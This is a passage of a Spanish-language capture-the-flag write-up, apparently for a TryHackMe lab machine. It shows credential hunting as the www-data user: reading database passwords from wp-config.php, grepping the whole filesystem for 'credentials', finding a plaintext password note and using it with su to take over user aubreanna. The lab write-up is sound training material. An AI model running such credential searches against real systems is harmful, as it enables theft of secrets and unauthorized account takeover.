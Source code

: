 Si inspeccionamos el archivo de configuración de WordPress (`wp-config.php`) ubicado en `/var/www/html/wordpress`, podemos identificar un nombre de usuario y una contraseña de la base de datos. Sin embargo, no resultaron muy útiles para nosotros.

```bash
[...]

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress123' );

[...]
```

Luego procedemos a buscar archivos confidenciales que contengan la palabra `credentials` de manera recursiva desde el directorio raíz con el siguiente comando:

```bash
www-data@internal:/var/www/html/wordpress$ grep -r -i credentials / 2>/dev/null
<tml/wordpress$ grep -r -i credentials / 2>/dev/null
/opt/wp-save.txt:Aubreanna needed these credentials for something later.  Let her know you have them and where they are.
```

En este caso, identificamos un archivo sospechoso en el directorio `/opt` llamado `wp-save.txt`, así que procedemos a inspeccionar su contenido.

```bash
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

Como se puede observar, el archivo contiene las credenciales del usuario `aubreanna`. Con esta información, ya podemos cambiar de usuario utilizando dichas credenciales.

```bash
www-data@internal:/opt$ su aubreanna
su aubreanna
Password: bubb13guM!@#123

aubreanna@internal:/opt$ id
id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```

Una vez ya como usuario `aubreanna`, podemos acceder a su directorio personal y leer la primera flag.

```bash
**aubreanna@internal:~$ cat user.txt
cat user.txt
THM{***************}**
```
